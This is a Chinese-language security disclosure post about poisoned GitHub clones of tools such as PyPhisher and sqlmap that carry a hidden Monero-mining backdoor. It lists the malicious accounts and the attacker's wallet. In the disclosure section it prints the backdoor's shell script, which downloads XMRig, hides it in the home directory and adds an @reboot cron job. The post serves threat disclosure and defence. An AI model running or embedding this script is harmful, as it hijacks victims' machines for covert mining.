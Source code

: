 # 【披露】近期github投毒 - 持久化门罗币挖矿后门

## 概述

近期发现多个GitHub账号被用于投毒，暗藏挖矿后门，主要针对门罗币（Monero）。攻击者通过克隆流行的开源项目（如PyPhisher和sqlmap）并在源码中植入恶意挖矿脚本，利用受害者的机器进行持续挖矿。目前已确认至少有17台机器受影响。

这些恶意代码通常通过Shell脚本下载并隐藏到用户目录中，并定期通过cron任务执行，确保挖矿工具在每次系统启动时持续运行。此次活动的时间范围从7月底到8月12日，同时也发现了更早的投毒活动痕迹，涉及多个关联账号，其中一些账号已被删除。

整体来看，此次投毒事件显示了开源平台的安全隐患，以及攻击者对开源项目的不当利用，需要引起开发者和用户的高度重视。

## 前言

本来骑着小电驴去超市买点东西，结果出超市发现下雨了，刚好一道闪电劈到了我正前方，距离不到20米。

没带伞，在超市门口刷了一会微信，有人发了github的链接，于是就看了一下

## 信息

币种：门罗币

账户信息：

	https://xmr.nanopool.org/account/45eUFaFCmq4SHeiGjfkncfVFeGTAFQtZcBY1nbXmPZdcifcBSaAi7FWA4Syf3cnVcHCx96pnXbeVsfZMu1YEuDuA6ymZr6P

目前仍有两台机器正在工作，有17台机器离线

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/e914ec511e6f42748463f583530485b8.png)


## 相关github账号

**最初发现的账号**：https://github.com/Pypi-Project

后续发现的具有相同特征的账号

	https://github.com/sqlmapprojec
	https://github.com/niktoproject
	https://github.com/W1hithat（该账号已被删除）

**这些账号的所有项目，已确认：为都携带挖矿脚本后门**

## 涉及挖矿后门的主要的常用渗透工具项目

### PyPhisher

黑客通过clone官方的PyPhisher源码，在源码中添加恶意shell 脚本

	https://github.com/sqlmapprojec/PyPhisher

恶意代码位于PyPhisher.py文件中的**第27行**

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/abc118040d72484f96e30cd1db66b8ce.png)

### sqlmap

同样，黑客通过克隆官方的sqlmap源码，在源码中添加恶意shell脚本

	https://github.com/sqlmapprojec/sqlmap

恶意代码位于sqlmap.py文件中的**第104行**

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/d0405eed496042269e7c600e44e22a92.png)

### CVE-2024-6387

通过克隆@xaitax的[CVE-2024-6387_Check](https://github.com/xaitax/CVE-2024-6387_Check)的源码，在源码中添加恶意shell脚本

	https://github.com/niktoproject/CVE-202406387_Check.py

恶意代码位于CVE-202406387_Check.py文件中的**第60行**

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/5794015d7ac346c7b7966799cf81c2c2.png)

### tools-phishing

通过克隆@AdrMXR的[tools-phishing](https://github.com/AdrMXR/tools-phishing)的源码，在源码中添加恶意shell脚本

	https://github.com/niktoproject/tools-phishing

恶意代码位于tools-phishing.py文件中的**第164行**

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/550e3096c9394fe9b0328c1dd2084a7e.png)

### CVE-2024-27198

通过克隆@Stuub的[CVE-2024-6387_Check](https://github.com/Stuub/RCity-CVE-2024-27198)的源码，在源码中添加恶意shell脚本

	https://github.com/Pypi-Project/RCity-CVE-2024-27198

恶意代码位于RCity.py文件中的**第339行**

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/c8f24a530e914bb989c720dfa49b3e06.png)

## 披露过程

首先通过已发现的恶意代码中，找到它相关联的脚本项目地址

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/94f27b0f882f478f9a8b9cfb3955b3d1.png)

该shell脚本项目在另一个恶意账户`niktoproject`中也存在并且相同。

shell脚本主要内容：

```shell
#!/bin/bash

...

# Descargar xmrig a /tmp
wget https://github.com/xmrig/xmrig/releases/download/v6.21.3/xmrig-6.21.3-linux-static-x64.tar.gz -O /tmp/xmrig.tar.gz

# Descomprimir xmrig en /tmp
tar -xzvf /tmp/xmrig.tar.gz -C /tmp

mkdir $HOME/.xconfig

# Copiar el minero al directorio oculto
cp /tmp/xmrig-6.21.3/xmrig $HOME/.xconfig/.x

...

# Definir la variable con un valor inicial
billetera="45eUFaFCmq4SHeiGjfkncfVFeGTAFQtZcBY1nbXmPZdcifcBSaAi7FWA4Syf3cnVcHCx96pnXbeVsfZMu1YEuDuA6ymZr6P/"

...

# Agregar tarea de cron
(crontab -l 2>/dev/null; echo "@reboot $HOME/.xconfig/.x -o xmr-us-east1.nanopool.org:14433 -u $billetera$USUARIO --tls --coin monero -B") | crontab -

# Limpiar archivos temporales
rm /tmp/xmrig.tar.gz
rm -rf /tmp/xmrig-6.21.3
$HOME/.xconfig/.x -o xmr-us-east1.nanopool.org:14433 -u $billetera$USUARIO --tls --coin monero -B
```

挖矿工具被锁定为门罗币矿工`XMRig`

黑客首先将xmrig下载到目标机器将其设置为隐藏文件，接着设置cron job定时任务，每次启动都会执行挖矿工具

通过简单的代码特征，github可以直接搜索到相关的项目：

	/c.git'], stdout=subprocess.DEVNULL

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/af8946349677462e8824edabe62773e5.png)

通过门罗币网站，可以直接搜索到该账户的相关信息

	https://xmr.nanopool.org/account/45eUFaFCmq4SHeiGjfkncfVFeGTAFQtZcBY1nbXmPZdcifcBSaAi7FWA4Syf3cnVcHCx96pnXbeVsfZMu1YEuDuA6ymZr6P

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/2ed3c3fef1f54ebfa17065b20a146aee.png)

## 活动时间

通过这些账号的最早投毒项目上传时间以及账号创建时间来看，活动时间是在`7月月底 - 8月12号`

**请注意，这仅是本次活动的时间点，不包含过去事件的活动时间**

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/6d3b1b7df8b94989a9b57a18aa4b8e11.png)

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/d753ca7948944d388296da4e45b565fa.png)

## 早期活动痕迹

根据这些投毒的项目的历史commit来看，可以发现以下信息：

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/c467fac06df444af808cf44780f5f757.png)

我们发现了另一个账户`W1hithat`，但很遗憾该账户已经404

**说明这应该是更早些时活动的账户，当黑客发现账号不再有鱼上钩后便删除了账号，并创建了新的账号**

同时也说明了对方相当马虎，忘记了更换脚本url

## 结束

近期的GitHub投毒事件揭示了开源项目在安全方面的脆弱性。通过植入恶意挖矿代码，攻击者能够利用用户的计算资源进行门罗币挖矿，给受害者带来了隐形的损失。尽管多台机器已经被识别并停止挖矿，但此次事件提醒开发者和用户加强对开源项目的审查，及时发现和修复潜在的安全漏洞。同时，社区应加强合作，提升对恶意行为的防范意识，共同维护开源环境的安全性。